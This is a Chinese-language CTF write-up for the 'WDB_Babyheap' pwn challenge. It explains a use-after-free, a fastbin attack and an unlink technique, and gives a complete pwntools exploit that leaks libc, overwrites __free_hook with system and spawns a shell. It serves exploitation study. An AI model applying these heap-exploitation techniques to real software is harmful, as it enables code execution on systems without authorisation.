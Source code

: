 ```yaml
---
title: WDB_Babyheap
date: 2018-09-23 11:38:12
tags: pwn heap
layout: post
---
```

UAF & Unlink
<!--more-->
# Analysis
```sh
➜  babyheap checksec babyheap
[*] '/home/nier/Desktop/babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
想办法控制执行流或者是改写hooks
简单的菜单堆题
每次malloc(0x30)size不可控
重点是泄露libc地址和实现任意地址写

# Leak heap
可以利用show和fastbin泄露heap
```c
add(0)
add(1)
free(1)
free(0)
show(0)
```
# Leak Libc By over lap
这个就比较头疼了..之前没搞过
但是发现可以先fast_bin_atk 控制size位--->0xa0
这样就可以放到unsortedbin里拿到libc_base
```python
edit(1,p64(heap+0x10))
add(2)
add(3)
add_1(4,p64(0)+p64(0)+p64(0)+p64(0xa1))
add(5,"/bin/sh")
add(6)
add_1(7,p64(0)+p64(0x31)+p64(ptr-0x18)+p64(ptr-0x10))
add(8,p64(0)+p64(0x30))
#to deal with the next_chunk's pre_inuse#
free(1)
show(1)
```
# write Any Address
有了一个unsortedbin就想到了unlink
直接控制bss中ptr数组 实现任意地址写
改写__free_hook为system
free("/bin/sh")

# EXP
```python
from pwn import *
#context.log_level="debug"
def cmd(c):
	p.sendlineafter("Choice:",str(c))
def add(idx,c=""):
	cmd(1)
	p.sendlineafter("Index:",str(idx))
	p.sendlineafter("Content:",c)
def edit(idx,c):
	cmd(2)
	p.sendlineafter("Index:",str(idx))
	p.sendlineafter("Content:",c)
def add_1(idx,c):
	cmd(1)
	p.sendlineafter("Index:",str(idx))
	p.sendafter("Content:",c)
def show(idx):
	cmd(3)
	p.sendlineafter("Index:",str(idx))
def free(idx):
	cmd(4)
	p.sendlineafter("Index:",str(idx))

ptr=0x602068+6*8
p=process("./babyheap")
libc=ELF("/mlibc/64/lib/libc-2.23.so")
#start leak#
add(0,p64(0)+p64(0x31))
add(1)
free(1)
free(0)
show(0)
data=p.readline()
heap=u64(data[:-1].ljust(8,"\0"))-(0x1e94030-0x1e94000)
log.warning(hex(heap))
#leaking heap over and start to make lap#
edit(1,p64(heap+0x10))
add(2)
add(3)
add_1(4,p64(0)+p64(0)+p64(0)+p64(0xa1))
add(5,"/bin/sh")
add(6)
add_1(7,p64(0)+p64(0x31)+p64(ptr-0x18)+p64(ptr-0x10))
add(8,p64(0)+p64(0x30))
#to deal with the next_chunk's pre_inuse#
free(1)
show(1)
data=p.readline()
base=u64(data[:-1].ljust(8,"\0"))-(0x00007ffff7dd4b78-0x7ffff7a39000)
log.warning(hex(base))
libc.address=base
edit(7,p64(libc.symbols['__free_hook']))
edit(4,p64(libc.symbols['system']))
add(9,"/bin/sh")
free(9)
p.interactive(">")
```
## Recview
都是基本套路...
还不太熟练unlink看了好久源码好些了
